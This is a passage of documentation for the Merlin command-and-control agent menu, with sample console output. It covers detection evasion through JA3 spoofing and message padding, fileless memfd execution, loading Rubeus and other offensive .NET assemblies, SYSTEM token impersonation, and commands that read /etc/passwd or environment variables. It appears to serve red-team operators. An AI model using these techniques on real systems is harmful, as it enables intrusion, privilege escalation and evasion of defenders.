    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» invoke-assembly Rubeus.exe klist
    [-] Created job GlPHKaRtmg for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job GlPHKaRtmg for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.5.0


    Action: List Kerberos Tickets (Current User)

    [*] Current LUID    : 0x37913

.. _ja3:

ja3
---

`JA3 is a method for fingerprinting TLS clients on the wire <https://engineering.salesforce.com/tls-fingerprinting-with-ja3-and-ja3s-247362855967>`_. Every TLS client has a unique signature depending on its configuration of the following TLS options: ``SSLVersion,Ciphers,Extensions,EllipticCurves,EllipticCurvePointFormats``.

The ``ja3`` option allows the agent to create a TLS client based on the provided JA3 hash signature. This is useful to evade detections based on a JA3 hash for a known tool (e.g.,. Merlin). `This <https://engineering.salesforce.com/gquic-protocol-analysis-and-fingerprinting-in-zeek-a4178855d75f>`_ article documents a JA3 fingerprint for Merlin. Known JA3 signatures can be downloaded from https://ja3er.com/

.. note::
    Make sure the input JA3 hash will enable communications with the Server. For example, if you leverage a JA3 hash that only supports SSLv2 and the server does not support that protocol, then they will not be able to communicate. The ``-ja3`` flag will override the the ``-proto`` flag and will cause the agent to use the protocol provided in the JA3 hash.

This example will create a TLS client with a JA3 hash of ``51a7ad14509fd614c7bb3a50c4982b8c`` that matches Java based malware such as Neutrino and Nuclear Exploit Kit (EK).

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» ja3 769,49161-49171-47-49156-49166-51-50-49159-49169-5-49154-49164-49160-49170-10-49155-49165-22-19-4-255,10-11-0,23-1-3-19-21-6-7-9-10-24-11-12-25-13-14-15-16-17-2-18-4-5-20-8-22,0
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job DWXtIAdjYz for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

jobs
----

The ``jobs`` command will display a table of all active jobs assigned to the agent. The output will not include jobs that have already completed.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» jobs

          ID     | STATUS  |     TYPE     |       CREATED        |         SENT
    +------------+---------+--------------+----------------------+----------------------+
      whFGRWHudV | Sent    | NativeCmd    | 2020-12-18T11:45:07Z | 2020-12-18T11:45:38Z
      UxegCkyROR | Sent    | AgentControl | 2020-12-18T11:45:11Z | 2020-12-18T11:45:38Z
      YqhfUvxkqZ | Created | CmdPayload   | 2020-12-18T11:45:44Z |


kill
----

The ``kill`` command is used to force a running process to quit or exit by its numerical identifier. The Process ID (PID) must be provided.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell "ps aux|grep gnome-calculator"
    [-] Created job mBYVsnbYBS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job mBYVsnbYBS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] john      132905  0.3  0.6 890376 50268 ?        Sl   07:41   0:00 gnome-calculator

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» kill 132905
    [-] Created job rjXgPGnZYl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job rjXgPGnZYl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Successfully killed pid 132905

.. _killdate:

killdate
--------

Killdate is a UNIX timestamp that denotes a time the executable will not run after (if it is 0 it will not be used). Killdate is checked before the agent performs each checkin, including before the initial checkin.

Killdate can be set in the agent/agent.go file before compiling, in the New function instantiation of a new agent. One scenario for using the killdate feature is an agent is persisted as a service and you want it to stop functioning after a certain date, in case the target organization fails to remediate the malicious service. Using killdate here would stop the agent from functioning after a certain specified UNIX system time.

The Killdate can also be set or changed for running agents using the ``set killdate`` command from the agent menu. This will only modify the killdate for the running agent in memory and will not update the compiled binary file. http://unixtimestamp.50x.eu/ can be used to generate a UNIX timestamp.

A UNIX timestamp of `0` will read like `1970-01-01T00:00:00Z` in the agent info table.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» killdate 811123200
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job utpISXXXbl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

list-assemblies
---------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``list-assemblies`` command lists .NET assemblies that have been loaded into the agent's process with the load-assembly_ command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» list-assemblies
    [-] Created job NIflRstGrR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NIflRstGrR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Loaded Assemblies:
    seatbelt.exe
    rubeus.exe
    sharpdpapi.exe
    sharpup.exe
    Hagrid

load-assembly
-------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``load-assembly`` command loads a .NET assembly into the agent's process. Once the assembly is loaded, it can be executed
multiple times with the invoke-assembly_ command. The .NET assembly is only sent across the wire one time.
An option third argument can be provided to reference the assembly as any other name when executed with the
invoke-assembly_ command.

.. note::
    Only CLR v4 is currently supported which can be used to execute both v3.5 and v4 .NET assemblies

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» load-assembly /root/Rubeus.exe
    [-] Created job iQOkWgGqkJ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job iQOkWgGqkJ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] successfully loaded rubeus.exe into the default AppDomain

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» load-assembly /root/Rubeus.exe Hagrid
    [-] Created job YrPdQkcuTG for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job YrPdQkcuTG for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] successfully loaded Hagrid into the default AppDomain

ls
--

The ``ls`` command is used to list a directory's contents using native Go functions within Merlin. This command will not execute the ``ls`` or ``dir`` binary programs found on their associated host operating systems. If a directory is not specified, Merlin will list the contents of the current working directory. When specifying a Windows path, you must escape the backslash (e.g.,. `C:\\Temp`). Wrap file paths containing a space in quotations. Alternatively, Linux file paths with a space can be called without quotes by escaping the space (e.g.,. ``/root/some\ folder/``). Relative paths can be used (e.g.,. ``./../`` or ``downloads\\Merlin``) and they are resolved to their absolute path.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» ls /var
    [-]Created job eNJKIiLXXH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job eNJKIiLXXH
    Directory listing for: /var

    drwxr-xr-x      2019-02-06 00:05:17     4096    backups
    drwxr-xr-x      2018-12-24 14:40:14     4096    cache
    dgtrwxrwxrwx    2019-02-06 00:05:16     4096    crash
    drwxr-xr-x      2019-01-17 21:24:30     4096    lib
    dgrwxrwxr-x     2018-04-24 04:34:22     4096    local
    Lrwxrwxrwx      2018-11-07 21:33:01     9       lock
    drwxrwxr-x      2019-02-06 00:05:39     4096    log
    dgrwxrwxr-x     2018-07-24 23:03:56     4096    mail
    dgtrwxrwxrwx    2018-07-24 23:09:50     4096    metrics
    drwxr-xr-x      2018-07-24 23:03:56     4096    opt
    Lrwxrwxrwx      2018-11-07 21:33:01     4       run
    drwxr-xr-x      2018-11-07 21:45:43     4096    snap
    drwxr-xr-x      2018-11-07 21:38:04     4096    spool
    dtrwxrwxrwx     2019-02-06 00:05:38     4096    tmp

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» ls "C:\\Program Files (x86)\\"
    [-]Created job ggQPFQhTrC for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job ggQPFQhTrC
    Directory listing for: C:\Program Files (x86)

    drwxrwxrwx      2018-09-15 00:42:33     0       Common Files
    drwxrwxrwx      2018-09-15 02:08:27     0       Internet Explorer
    drwxrwxrwx      2018-09-15 00:33:50     0       Microsoft.NET
    drwxrwxrwx      2018-09-15 02:07:46     0       Windows Defender
    drwxrwxrwx      2018-12-27 12:42:42     0       Windows Kits
    drwxrwxrwx      2018-09-15 00:33:53     0       Windows Mail
    drwxrwxrwx      2018-12-16 13:15:58     0       Windows Media Player
    drwxrwxrwx      2018-09-15 02:10:06     0       Windows Multimedia Platform
    drwxrwxrwx      2019-01-10 08:18:11     0       Windows Photo Viewer
    drwxrwxrwx      2018-09-15 02:10:06     0       Windows Portable Devices
    drwxrwxrwx      2018-09-15 00:33:50     0       Windows Sidebar
    drwxrwxrwx      2018-09-15 00:33:50     0       WindowsPowerShell
    -rw-rw-rw-      2018-09-15 00:31:34     174     desktop.ini
    drwxrwxrwx      2018-09-15 00:42:33     0       windows nt

main
----

The ``main`` command is used to leave the Agent menu and return back to the :doc:`main`. It is an alias for the ``back`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» main
    Merlin»

.. _maxretry:

maxretry
--------

The ``maxretry`` control type is used to change the _maximum_ number of failed login an agent will allow before the agent quits. For the sake of this conversation, a login means establishing contact with a Merlin Server and receiving no errors. The default is 7. There is no response on the CLI after the instruction has been provided to the agent. You can verify the setting was changed using the ``agent info`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» maxretry 50
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job utpISXXXbl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

memfd
-----

.. note::
    This command is only available to agent running on a ``Linux`` operating system!

The ``memfd`` command loads a Linux executable file into memory (RAM) as an anonymous file using the
`memfd_create <https://man7.org/linux/man-pages/man2/memfd_create.2.html>`__ API call, executes it, and returns the
results.
The file is created with an empty string as its name.
Less the fact that RAM is a file on Linux, the executable is not written to disk.
View the `Detecting Linux memfd_create() Fileless Malware with Command Line Forensics
<https://www.sandflysecurity.com/blog/detecting-linux-memfd_create-fileless-malware-with-command-line-forensics/>`__
for detection guidance.

.. note::
    This command will not run on Windows agents

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» memfd /tmp/hello.py
    [-] Created job ZyeWhgfThk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job ZyeWhgfThk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Hello from a Python script

netstat
-------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``netstat`` command uses the Windows API to enumerating network connections and listening ports.
Without any arguments, the ``netstat`` command returns all TCP and UDP network connections.

Use ``netstat -p tcp`` to only return TCP connections and ``netstat -p udp`` to only return UDP connections.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» netstat
    [-] Created job JEFMANkdaU for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job JEFMANkdaU for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Proto Local Addr              Foreign Addr            State        PID/Program name
    udp   0.0.0.0:123             0.0.0.0:0                            3272/svchost.exe
    udp   0.0.0.0:500             0.0.0.0:0                            3104/svchost.exe
    udp   0.0.0.0:3389            0.0.0.0:0                            984/svchost.exe
    udp6  :::123                  0.0.0.0:0                            3272/svchost.exe
    udp6  :::500                  0.0.0.0:0                            3104/svchost.exe
    udp6  :::3389                 0.0.0.0:0                            984/svchost.exe
    tcp   0.0.0.0:135             0.0.0.0:0               LISTEN       964/svchost.exe
    tcp   0.0.0.0:445             0.0.0.0:0               LISTEN       4/System
    tcp   0.0.0.0:3389            0.0.0.0:0               LISTEN       984/svchost.exe
    tcp   127.0.0.1:52945         127.0.0.1:5357          TIME_WAIT
    tcp   127.0.0.1:54441         127.0.0.1:5357          TIME_WAIT
    tcp   192.168.1.11:59757      72.21.91.29:80          CLOSE_WAIT   6496/SearchApp.exe
    tcp   192.168.1.11:59763      72.21.91.29:80          CLOSE_WAIT   12076/YourPhone.exe
    tcp6  :::135                  :::0                    LISTEN       964/svchost.exe
    tcp6  :::445                  :::0                    LISTEN       4/System
    tcp6  :::3389                 :::0                    LISTEN       984/svchost.exe

note
----

The ``note`` command creates a server-side note that operators can use to record miscellaneous information about an agent.
The note is displayed in a column of the output from the sessions_ command

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» note Demo Agent Here
    [i] Agent c1090dbc-f2f7-4d90-a241-86e0c0217786's note set to: Demo Agent Here
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sessions

                   AGENT GUID              |    TRANSPORT    |   PLATFORM    |      HOST       |        USER         |                 PROCESS                  | STATUS | LAST CHECKIN |      NOTE
    +--------------------------------------+-----------------+---------------+-----------------+---------------------+------------------------------------------+--------+--------------+-----------------+
      c1090dbc-f2f7-4d90-a241-86e0c0217786 | HTTP/2 over TLS | linux/amd64   | ubuntu          | rastley             | main(200769)                             | Active | 0:00:08 ago  | Demo Agent Here


nslookup
--------

The ``nslookup`` command takes a space separated list of IP addresses or hostnames and performs a DNS query using the
host's resolver and returns the results.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» nslookup 8.8.8.8 9.9.9.9 github.com google.com
    [-] Created job fQilcQFmlk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job fQilcQFmlk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Query: 8.8.8.8, Result: dns.google.
    Query: 9.9.9.9, Result: dns9.quad9.net.
    Query: github.com, Result: 192.30.255.113
    Query: google.com, Result: 142.250.73.238 2607:f8b0:4004:82a::200e

.. _padding:

padding
-------

The ``padding`` control type is used to change the _maximum_ size of a message's padding. A random value between 0 and the maximum padding value is selected on a per message basis and added to the end of each message. This is used in an attempt to evade detection when a program looks for messages with same size beaconing out. The default is 4096. There is no response on the CLI after the instruction has been provided to the agent. You can verify the setting was changed using the ``agent info`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» set padding 8192
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job wlGTwgtqNx for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

pipes
-----

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``pipes`` command lists all of the named pipes on the Windows host where the agent is currently running:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» pipes
    [-] Created job XYXXiZaGev for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job XYXXiZaGev for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Named pipes:
    \\.\pipe\InitShutdown
    \\.\pipe\lsass
    \\.\pipe\ntsvcs
    \\.\pipe\scerpc
    \\.\pipe\Winsock2\CatalogChangeListener-2f4-0
    \\.\pipe\Winsock2\CatalogChangeListener-3c4-0
    \\.\pipe\epmapper
    \\.\pipe\Winsock2\CatalogChangeListener-254-0
    \\.\pipe\LSM_API_service
    \\.\pipe\Winsock2\CatalogChangeListener-3f8-0
    \\.\pipe\eventlog
    \\.\pipe\Winsock2\CatalogChangeListener-558-0
    \\.\pipe\TermSrv_API_service
    \\.\pipe\Ctx_WinStation_API_service
    \\.\pipe\atsvc
    \\.\pipe\Winsock2\CatalogChangeListener-734-0
    \\.\pipe\wkssvc
    \\.\pipe\SessEnvPublicRpc
    \\.\pipe\Winsock2\CatalogChangeListener-a1c-0
    \\.\pipe\spoolss
    \\.\pipe\Winsock2\CatalogChangeListener-adc-0
    \\.\pipe\trkwks


printenv
--------

The ``printenv`` command is an alias for the ``env`` showall_ command that enumerates and return all environment variables:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» printenv
    [-] Created job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variables:
    SHELL=/bin/bash
    SESSION_MANAGER=local/ubuntu:@/tmp/.ICE-unix/3195,unix/ubuntu:/tmp/.ICE-unix/3195
    QT_ACCESSIBILITY=1
    SNAP_REVISION=148
    XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/etc/xdg
    XDG_MENU_PREFIX=gnome-
    GNOME_DESKTOP_SESSION_ID=this-is-deprecated
    SNAP_REAL_HOME=/home/rastley
    GNOME_SHELL_SESSION_MODE=ubuntu
    SSH_AUTH_SOCK=/run/user/1000/keyring/ssh

ps
--

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``ps`` command uses the Windows API to gather available information about running processes.
The agent is not running in a high-integrity process then some of the information will be missing.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]]» ps
    [-] Created job afYByFZoXV for agent c1090dbc-f2f7-4d90-a241-86e0c0217786]

    [-] Results job afYByFZoXV for agent c1090dbc-f2f7-4d90-a241-86e0c0217786]

    [+]
    PID     PPID    ARCH    OWNER   EXE
    0       0       x64             [System Process]
    4       0       x64             System
    124     4       x64             Registry
    412     4       x64             smss.exe
    508     496     x64             csrss.exe
    596     496     x64             wininit.exe
    604     588     x64             csrss.exe
    668     588     x64     BUILTIN\Administrators  winlogon.exe
    736     596     x64             services.exe
    <SNIP>
    4648    2504    x64     DESKTOP-H39FR21\bob     sihost.exe
    5732    736     x64     DESKTOP-H39FR21\bob     svchost.exe
    5684    736     x64     DESKTOP-H39FR21\bob     svchost.exe
    5768    1844    x64     DESKTOP-H39FR21\bob     taskhostw.exe
    5716    736     x64     BUILTIN\Administrators  svchost.exe
    2396    736     x64     NT AUTHORITY\SYSTEM     svchost.exe
    6220    2396    x64     DESKTOP-H39FR21\bob     ctfmon.exe
    6464    736     x64     NT AUTHORITY\LOCAL SERVICE      svchost.exe
    6504    6376    x64     DESKTOP-H39FR21\bob     explorer.exe

pwd
---

The ``pwd`` command uses native Go to get and return the current working directory.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» pwd
    [-]Created job JweUayTyTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job JweUayTyTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Current working directory: C:\Users\Joe

quit
----

The ``quit`` command is used to exit out of the Merlin Server application. This is also an alias for the ``exit`` command.

run
---

The ``run`` command is used to task the agent to run a program on the host and return STDOUT/STDERR. When issuing a command to an agent from
the server, the agent will execute the provided binary file for the program you specified and also pass along any
arguments you provide. It is important to note that program must be in the path. This allows an operator to specify and
use a shell (e.g.,. cmd.exe, powershell.exe, or /bin/bash) or to execute the program directly *WITHOUT* a shell.
For instance, ``ping.exe`` is typically in the host's %PATH% variable on Windows and works *without* specifying ``cmd.exe``.
However, the ``ver`` command is not an executable in the %PATH% and therefore *must* be run from ``cmd.exe``.
Use the shell_ command if you want to use the operating system's default shell directly.

Example using ping:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run ping 8.8.8.8
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job DTBnkIfnus for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job DTBnkIfnus

    Pinging 8.8.8.8 with 32 bytes of data:
    Reply from 8.8.8.8: bytes=32 time=23ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=368ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=26ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=171ms TTL=54

    Ping statistics for 8.8.8.8:
        Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
    Approximate round trip times in milli-seconds:
        Minimum = 23ms, Maximum = 368ms, Average = 147ms

Example running ``ver`` *without* ``cmd.exe``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job iOMPERNYGT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job iOMPERNYGT
    exec: "ver": executable file not found in %PATH%

Example running ``ver`` *with* ``cmd.exe``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job IxVXgyIkhS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job IxVXgyIkhS

    Microsoft Windows [Version 10.0.16299.64]

Shell Functions
^^^^^^^^^^^^^^^

Some commands and capabilities are components of a shell and can *ONLY* be used with a shell.
For example, the ``dir`` command is a component of ``cmd.exe`` and is not its own program executable.
Therefore, ``dir`` can only be used within the ``cmd.exe`` shell.
In order to use the `dir`, you must provide executable of the shell environment where that command resides.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c dir

The pipe and redirection characters ``|`` , ``>`` , and ``<`` , are also functions of a shell environment.
If you want to use them, you must do so *WITH* a shell.
For Linux, an example would be:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»run bash -c "cat /etc/passwd | grep root"

Quoted Arguments
^^^^^^^^^^^^^^^^

When running a command on an agent from the server, the provided arguments are passed to executable that was called.
As long as there are no special characters (e.g., ``\`` , ``&`` , ``;`` , ``|`` , ``>`` , ``<`` etc.) the command will be processed fine.

For example, this command will work fine because it does not have any special characters:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe Get-Service -Name win* -Exclude WinRM

However, this command **WILL** fail because of the ``|`` symbol. The command will still execute, but will stop processing everything after the ``|`` symbol.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe Get-Service -Name win* -Exclude WinRM | fl

To circumvent this, enclose the entire argument in quotes. The outer most quotes will be removed when the arguments are
passed. Any inner quotes need to be escaped. The argument can be enclosed in double quotes or single quotes.
The command be executed in both of these ways:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe "Get-Service -Name win* -Exclude WinRM | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe "Get-Service -Name \"win*\" -Exclude "WinRM" | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe 'Get-Service -Name \'win*\' -Exclude 'WinRM' | fl'

Escape Sequence
^^^^^^^^^^^^^^^

Following along with the Quoted Arguments section above, the ``\`` symbol will be interpreted as an escape sequence.
This is beneficial because it can be used to escape other characters like the pipe symbol, ``|`` .
However, it can work against you when working with Windows file paths and the arguments are not enclosed in quotes.

This command will fail because the ``\`` itself needs to escaped. Notice the error message shows ``C:WindowsSystem32``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c C:\Windows\System32
    [-]Created job hBYxRfaRBG for agent 21a0fc5f-14ad-4c43-b41e-57eab1feb0e1
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job hBYxRfaRBG
    [+]'C:WindowsSystem32' is not recognized as an internal or external command,
    operable program or batch file.
    [!]exit status 1

To correctly issue the command either escape the ``\`` or enclose the commands in quotes:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c dir C:\\Windows\\System32

sdelete
-------

The ``sdelete`` command securely deletes a file.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sdelete /tmp/deleteMe.txt
    [-] Created job ZfLruZBwbR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job ZfLruZBwbR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Securely deleted file: /tmp/deleteMe.txt

sessions
--------

The ``sessions`` command is used to quickly list information about established agents from the main menu to include their status.
The sessions command is available from any menu in the CLI.

* AGENT GUID - A unique identifier for every running instance
* TRANSPORT - The protocol the agent is communicating over
* PLATFORM - The operating system and architecture the agent is running on
* HOST - The hostname where the agent is running
* USER - The username that hte agent is running as
* PROCESS - The Agent's process name followed by its Process ID (PID) in parenthesis
* STATUS - The Agent's communiction status of either active, delayed, or dead
* LAST CHECKIN - The amount of time that has passed since the agent last checked in
* NOTE - A free-form text area for operators to record notes about a specific agent; tracked server-side only

.. code-block:: text

    Merlin» sessions

                   AGENT GUID              |    TRANSPORT    |   PLATFORM    |      HOST       |        USER         |                 PROCESS                  | STATUS | LAST CHECKIN |      NOTE
    +--------------------------------------+-----------------+---------------+-----------------+---------------------+------------------------------------------+--------+--------------+-----------------+
      d07edfda-e119-4be2-a20f-918ab701fa3c | HTTP/2 over TLS | linux/amd64   | ubuntu          | rastley             | main(200769)                             | Active | 0:00:08 ago  | Demo Agent Here

sharpgen
--------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. warning::
    The .NET Core 2.1 SDK must be manually installed by the operator and the SharpGen executable must be built before the ``sharpgen`` command can be used

The ``sharpgen`` command leverages Ryan Cobb's `SharpGen <https://github.com/cobbr/SharpGen>`_ project and the `.NET Core 2.1 SDK <https://dotnet.microsoft.com/download/dotnet-core/2.1>`_ to dynamically compile and execute .NET assemblies. After assembly is compiled, the same steps documented in `execute-assembly`_ are followed. SharpGen also leverages functionality from the `SharpSploit <https://github.com/cobbr/SharpSploit>`_ project that can be called directly from this ``shargen`` command. This command uses a hardcoded output that places compiled executables to the Merlin root directory as ``sharpgen.exe``.

For more granular control and additional configuration options, use the ``windows/x64/csharp/misc/SharpGen`` module.

SharpGen is git a submodule in the ``data/src/cobbr/SharpGen`` directory. From this directory, run the ``dotnet build -c release`` command to build the ``SharpGen.dll`` executable.

The ``sharpgen`` command is executed as: ``shaprgen <code> [<spawnto path> <spawnto args>]``

The ``code`` positional argument is the .NET code you want to compile and execute. All code is automatically wraped in ``Console.WriteLine();`` and it does not need to be included again. All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Use ``\`` to escape any characters inside of the code argument and use quotes to enclose the entire code argument (e.g., ``"new Tokens().MakeToken(\"RAstley\", \"\", \"P@ssword\")"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sharpgen "new SharpSploit.Credentials.Tokens().GetSystem()"
    [-] Created job oeOBXfBuPS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job oeOBXfBuPS

    Getting system...
    Impersonate NT AUTHORITY\SYSTEM...
    Processes for NT AUTHORITY\SYSTEM: 25
    Attempting to impersonate: NT AUTHORITY\SYSTEM
    Attempting to impersonate: NT AUTHORITY\SYSTEM
    Impersonated: NT AUTHORITY\SYSTEM
    True

shell
-----

The ``shell`` command is used to task the agent to execute the provided arguments using the operating system's default
shell and return STDOUT/STDERR. On Windows the ``%COMSPEC%`` shell is used and if it is ``cmd.exe`` then the ``/c``
argument is used. For macOS and Linux, the ``/bin/sh`` shell is used with the ``-c`` argument.
Use the run_ command to execute a program directly without invoking the shell.

Example using ``ver``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job IxVXgyIkhS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job IxVXgyIkhS

    Microsoft Windows [Version 10.0.16299.64]

Shell Functions
^^^^^^^^^^^^^^^

Some commands and capabilities are components of a shell and can *ONLY* be used with a shell.
For example, the ``dir`` command is a component of ``cmd.exe`` and is not its own program executable.
Therefore, ``dir`` can only be used within the ``cmd.exe`` shell.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir

The pipe and redirection characters ``|`` , ``>`` , and ``<`` , are also functions of a shell environment.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell "cat /etc/passwd | grep root"

Quoted Arguments
^^^^^^^^^^^^^^^^

When running a command on an agent from the server, the provided arguments are passed to executable that was called.
As long as there are no special characters (e.g., ``\`` , ``&`` , ``;`` , ``|`` , ``>`` , ``<`` etc.) the command will be processed fine.

For example, this command will work fine because it does not have any special characters:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe Get-Service -Name win* -Exclude WinRM

However, this command **WILL** fail because of the ``|`` symbol. The command will still execute, but will stop processing everything after the ``|`` symbol.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe Get-Service -Name win* -Exclude WinRM | fl

To circumvent this, enclose the entire argument in quotes. The outer most quotes will be removed when the arguments are
passed. The argument can be enclosed in double quotes or single quotes. All other quotes need to be escaped
The command be executed in both of these ways:

.. code-block:: text

